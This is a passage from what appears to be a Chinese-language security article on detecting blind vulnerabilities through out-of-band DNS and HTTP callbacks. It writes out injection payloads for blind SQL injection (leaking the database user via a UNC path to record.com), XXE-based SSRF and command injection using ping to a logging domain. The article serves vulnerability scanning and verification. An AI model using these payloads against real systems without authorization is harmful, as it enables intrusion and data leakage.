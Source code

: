 ```
payload: "... load_file(concat('\\\\',user(),'.record.com\\blindsqli'))
condition: {*.record.com LOG} in DNS queries LOGs
```

只要目标系统环境符合要求并且执行了注入的命令，那么就会去解析预先设置好的域名，同时通过监控平台能够拿到返回的数据。

![](/images/articles/2016-06-01-how-to-scan-and-check-vulnerabilities/11.png)

##### iii. SSRF（无回显）

根据上面两个例子，熟悉 SSRF 的同学肯定也是知道怎么玩了：

```
payload: "... <!ENTITY test SYSTEM "http://record.com/?blindssrf"> ..."
condition: {http://record.com/?blindssrf LOG} in HTTP requests LOGs
```

##### iv. RCE（无回显）

命令执行/命令注入这个得好好说一下，我相信很多同学都懂得在命令执行无法回显的时候借用类似 `python -m SimpleHTTPServer` 这样的环境，采用回连的检测机制来实时监控访问日志。*nix 系统环境下一般是使用 `curl` 命令或者 `wget` 命令，而 windows 系统环境就没有这么方便的命令去直接访问一个链接，我之前常用的是 `ftp` 命令和 PowerShell 中的文件下载来访问日志服务器。现在，有了一个比较通用的做法同时兼顾 *nix 和 windows 平台，那就是 `ping` 命令，当 ping 一个域名时会对其进行一个递归 DNS 查询的过程，这个时候就能在后端获取到 DNS 的查询请求，当命令真正被执行且平台收到回显时就能说明漏洞确实存在。

```
payload: "... | ping xxflag.record.com ..."
condition: {xxflag.record.com LOG} in DNS queries LOGs
```

![](/images/articles/2016-06-01-how-to-scan-and-check-vulnerabilities/12.png)

通过这几个 "间接判断" 的示例，相信大家也大概了解了在漏洞无回显的情况下如何进行扫描和检测了。更多的无回显 Payloads 可以通过 [http://ceye.io/payloads](http://ceye.io/payloads) 进行查看。（勿喷）

### 应急实战举例

原理和例子扯了这么多，也该上上实际的扫描检测案例了。

#### Java 反序列化（通用性举例，ftp/ping）

首先说说 15 年底爆发的 Java 反序列化漏洞吧，这个漏洞应该算得上是 15 年 Web 漏洞之最了。记得当时应急进行扫描的时候，WebLogic 回显 PoC 并没有搞定，对其进行扫描检测的时候使用了回连的方式进行判断，又因为待测目标包含 *nix 和 windows 环境，所以是写了两个不同的 Payloads 对不同的系统环境进行检测，当时扫描代码的 Payloads 生成部分为：

**i. *nix**
